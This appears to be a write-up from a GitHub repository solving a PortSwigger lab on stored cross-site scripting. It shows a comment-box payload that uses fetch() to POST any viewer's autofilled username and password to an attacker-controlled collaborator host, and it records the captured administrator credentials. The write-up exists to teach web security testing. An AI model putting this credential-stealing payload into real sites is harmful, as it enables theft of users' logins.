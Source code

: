 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6c464a8b-b305-4f2b-9e6b-f47e18cc9d57)

## Solution :

 We find ourselves back on the target blog page. Navigate your way to your favorite blog and scroll down to view a comment form.

 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b22751af-ab83-4811-a219-249885d16746)

In the comment box insert the following basic HTML input elements. In the password element we will add an event handler, `‘onchange’`, that will trigger our new function. I called our new function, `‘dothis()’`, but can be named whatever you like.

```html
<!-- Creating 2 user input fields -->
<input type="text" name="username">
<input type="password" name="password" onchange="dothis()">
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/253c2693-784e-4019-ae55-cd3ed17c357d)

Click ‘Post Comment’ then ‘Back to Blog’ on the next page. Scroll down to view your comment.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/869f3759-3c96-435b-9768-effc74c6596e)

It worked! created <input> fields with `username` and `password`.Now we need to incorporate it into our payload using `Fetch API`.

Payload-

```html
<input name=username id=username>
<input type=password name=password onchange="fetch('https://domain.com',
{
method:'POST',
body:username.value+':'+this.value
}
);">
```
This script will make anyone who views the comment issue a POST request containing 
their username and password to your subdomain of the public Collaborator server.

we willl use `burp collaborator` to generate a domain name for us then we use  that domain name in our xss payload.

Go to burp  collaborator window and copy the  collaborator payload ie our domain.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/97bccfce-852f-4f56-a08f-a969dcab0a9b)

Then go and press poll now collaborator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6cbd8495-f9e4-471d-9d50-ddfe7db5cd06)

username =`administrator`
password=`q83be0wmowwmjcrc6th2`

go to my account and login

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d5860823-4cb3-49ce-9790-9d66d200d3cc)

Lab solved.


